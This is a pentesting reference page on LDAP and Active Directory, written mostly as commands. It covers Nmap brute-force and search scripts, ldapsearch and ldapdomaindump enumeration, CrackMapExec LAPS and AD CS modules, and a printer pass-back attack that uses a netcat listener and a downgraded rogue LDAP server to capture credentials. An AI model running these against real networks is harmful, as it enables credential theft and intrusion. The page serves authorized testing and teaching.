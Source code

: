 ```yaml
---
title: Lightweight Directory Access Protocol (LDAP) Pentesting
desc: A standard protocol designed to maintain and access "directory services" within a network. Default port is 389 (LDAP), 636 (LDAPS).
tags: [389, 636, 3268, 3269, Active, Directory, LAPS, LDAP, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' -p 389 <target-ip>
    nmap --script ldap-search -p 389 <target-ip>
    nmap --script ldap-* -p 389 <target-ip>
    nmap --script "ldap* and not brute" -p 389 <target-ip>
    ```

<br />

## Search LDAP

```sh
# cn: Common Name
# dc: Domain Component
# ou: Organizational Unit

ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com"
ldapsearch -x -H ldap://10.0.0.1:636 -b "dc=example,dc=com"

# As administrator
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -w password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -W

# Search sAMAccountName
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName"
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName" | grep sAMAccountName

# Get information
ldapsearch -x -H ldap://10.0.0.1 -b "cn=sample,cn=Users,dc=example,dc=com" -w 'password' "(objectclass=*)" -D "example\\name"
```

<br />

## Dump the Active Directory Information

If you have the credential, you can get the Active Directory information via LDAP.

```sh
ldapdomaindump -u username -p password 10.0.0.1
```

<br />

## Connect

1. **Active Directory Certificate Services (AD CS)**

    ```sh
    cd crackmapexec
    # -M: module
    poetry run crackmapexec ldap <target-ip> -d 'domain' -u 'username' -p 'password' -M adcs
    ```

2. **Local Administrator Password Solution (LAPS)**

    ```sh
    cd crackmapexec
    # -M: module
    poetry run crackmapexec ldap <target-ip> -u 'username' -p 'password' --kdcHost <target-ip> -M laps
    ```

<br />

## Pass-Back Attack

Attack against the network devices such as printers.  
For example, access http://printer.sub.example.com/settings.aspx

- **Netcat**

    Open a listener for connecting back to your local machine.

    ```sh
    nc -lvp 389
    ```

    In browser, test LDAP settings where you input username and password.

- **Host Rogue LDAP Server**

    If you cannot connect back in local machine by Netcat, you need to create a rogue LDAP server.  
    Install the dependencies at first.

    ```sh
    sudo apt update
    sudo apt install -y slapd ldap-utils
    sudo systemctl enable slapd
    ``` 

    Configure your own rogue LDAP server by executing the following command.

    ```sh
    sudo dpkg-reconfigure -p low slapd

    # ---------------------------------------------------

    # in configuration dialog

    1. Omit OpenLDAP server configuration: No
    2. DNS domain name: <target-domain>
    3. Organization name: <target-domain>
    4. Administrator password: <arbitrary-password>
    5. Database backend to use: MDB
    6. Do you want the database to be removed when slapd is purged?: No
    7. Move old database?: Yes
    ```

    We need to make your rogue LDAP server to be vulnerable by downgrading the supported authentication mechanism.  
    Create the config file named "config.ldif".

    ```
    dn: cn=config
    replace: olcSaslSecProps
    olcSaslSecProps: noanonymous,minssf=0,passcred
    ```
    
    Now we can use the config file to patch the LDAP server.
    
    ```sh
    # -Y: SASL mechanism
    # -H: URI
    sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./config.ldif
    sudo service slapd restart
    ```
    
    We can verify that the rogue LDAP server’s configuration has been applied:
    
    ```sh
    ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
    ```
    
    For capturing the credentials, run the following command.
    
    ```sh
    sudo tcpdump -SX -i <target-interface-like-eth0> tcp port 389
    ```
    
    In browser, test the printer settings and capture the credentials via tcpdump.